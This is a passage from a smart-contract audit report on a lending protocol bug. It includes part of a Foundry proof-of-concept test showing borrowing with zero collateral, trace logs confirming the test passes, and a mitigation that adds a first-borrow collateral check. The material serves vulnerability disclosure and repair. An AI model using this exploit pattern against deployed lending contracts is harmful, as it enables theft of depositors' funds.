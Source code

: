 ```solidity
        //    despite attacker having zero collateral.
        uint256 storedBorrow = lendStorage.borrowWithInterestSame(attacker, lToken);
        assertEq(storedBorrow, 10e18, "Stored borrow balance should be 10 tokens");

        // lets try this with a user for example
        address user = makeAddr("user");

        vm.startPrank(user);

        // Normally this should revert, but because of the bug it will succeed.
        coreRouter.borrow(10e18, token);
        vm.stopPrank();
    }

    // Helper function to supply tokens before testing borrowing
    function _supply(uint256 amount) internal returns (address token, address lToken) {
        token = supportedTokens[0];
        lToken = lendStorage.underlyingTolToken(token);

        ERC20Mock(token).mint(deployer, amount);
        IERC20(token).approve(address(coreRouter), amount);
        coreRouter.supply(amount, token);
    }
}

```

The test logs show that both the attacker and the user that had supplied 0 collateral can pull out money:

```solidity
 [582] ERC20Mock::balanceOf(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e]) [staticcall]
    │   └─ ← [Return] 10000000000000000000 [1e19]
    ├─ [0] VM::assertEq(10000000000000000000 [1e19], 10000000000000000000 [1e19], "Attacker should have 10 tokens") [staticcall]
    │   └─ ← [Return] 
    ├─ [582] ERC20Mock::balanceOf(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D]) [staticcall]
    │   └─ ← [Return] 10000000000000000000 [1e19]
    ├─ [0] VM::assertEq(10000000000000000000 [1e19], 10000000000000000000 [1e19], "Attacker should have 10 tokens") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.35ms (1.76ms CPU time)

Ran 1 test suite in 764.39ms (11.35ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

Add an explicit “first-borrow” collateral check: Immediately after calculating borrowAmount:
```solidity
if (currentBorrow.amount == 0 && currentBorrow.borrowIndex == 0) {
    // No prior borrow—ensure user has supplied some collateral
    require(collateral > 0, "Missing collateral for initial borrow");
}

```